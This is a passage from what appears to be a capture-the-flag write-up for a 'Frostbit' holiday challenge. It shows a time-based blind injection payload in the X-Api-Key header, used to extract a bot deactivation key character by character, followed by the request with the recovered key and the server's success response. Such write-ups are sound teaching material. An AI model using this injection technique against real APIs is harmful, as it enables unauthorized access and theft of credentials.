 !!! info "Gotta go fast"
    Since this is likely to be a UUID, it'll be faster if we rearrange our character set
    so that `-` and our numbers are checked before our letters.
    I haven't actually tested how much of a difference it makes, but it *feels* faster to me,
    and I'm too lazy to set BurpSuite up to be red.

```
GET /api/v1/frostbitadmin/bot/e550ccc8-c8cf-4a58-ab68-3b527e14179d/deactivate?debug=1 HTTP/2
Host: api.frostbit.app
Accept-Encoding: gzip, deflate, br
X-Api-Key: ' OR SUBSTRING(doc.deactivate_api_key, 0, 2) == 'a' OR SLEEP(1) AND 'a'=='a
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

This eventually gives us the key which we can send in the X-API-Key header:

```
GET /api/v1/frostbitadmin/bot/e550ccc8-c8cf-4a58-ab68-3b527e14179d/deactivate?debug=1 HTTP/2
Host: api.frostbit.app
Accept-Encoding: gzip, deflate, br
X-Api-Key: abe7a6ad-715e-4e6a-901b-c9279a964f91
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
Response:
```
HTTP/2 200 OK
Server: nginx/1.27.1
Date: Tue, 31 Dec 2024 04:36:14 GMT
Content-Type: application/json
Content-Length: 314
Strict-Transport-Security: max-age=31536000

{"message":"Response status code: 200, Response body: {\"result\":\"success\",\"rid\":\"e550ccc8-c8cf-4a58-ab68-3b527e14179d\",\"hash\":\"7f28073866327e959cd340cdbe483ffb4b098c726c4e4ed77b9f7c2dc21199f2\",\"uid\":\"14720\"}\nPOSTED WIN RESULTS FOR RID e550ccc8-c8cf-4a58-ab68-3b527e14179d","status":"Deactivated"}
```
